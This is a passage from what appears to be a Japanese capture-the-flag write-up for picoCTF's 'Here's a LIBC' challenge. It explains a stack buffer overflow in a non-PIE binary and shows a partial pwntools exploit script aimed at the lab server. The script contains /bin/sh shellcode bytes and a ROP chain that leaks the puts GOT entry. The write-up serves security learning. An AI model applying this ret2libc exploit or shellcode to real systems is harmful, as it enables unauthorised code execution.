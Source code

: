 ```python
        break
    r.close()

r.interactive()
r.close()
```

2問目から結構面倒だった。

# Here's a LIBC
ソースなし。no pieでstack bof。偶数番目の大文字小文字を変換されるが、肝心のコントロール部は変換が入らないので、何も考えずに書けばよい。

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './vuln'
HOST = 'mercury.picoctf.net'
PORT = 62289

elf = ELF(TARGET)
def start():
        if not args.R:
                print("local")
                return process(TARGET)
                # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
                # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
        else:
                print("remote")
                return remote(HOST, PORT)

def get_base_address(proc):
        lines = open("/proc/{}/maps".format(proc.pid), 'rb').readlines()
        for line in lines :
                if TARGET[2:] in line.split('/')[-1] :
                        break
        return int(line.split('-')[0], 16)
        # return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
        script = "handle SIGALRM ignore\n"
        PIE = get_base_address(proc)
        script += "set $base = 0x{:x}\n".format(PIE)
        for bp in breakpoints:
                script += "b *0x%x\n"%(PIE+bp)
        script += "c"
        gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

_64_SHELLCODE = "\x6a\x3b\x58\x48\x99\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x57\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"

r = start()
if args.D:
        debug(r, [0x770])

rdi = 0x00400913
payload = ''
payload += 'A'*136
payload += flat(rdi, elf.got.puts, elf.plt.puts, elf.sym.main)
```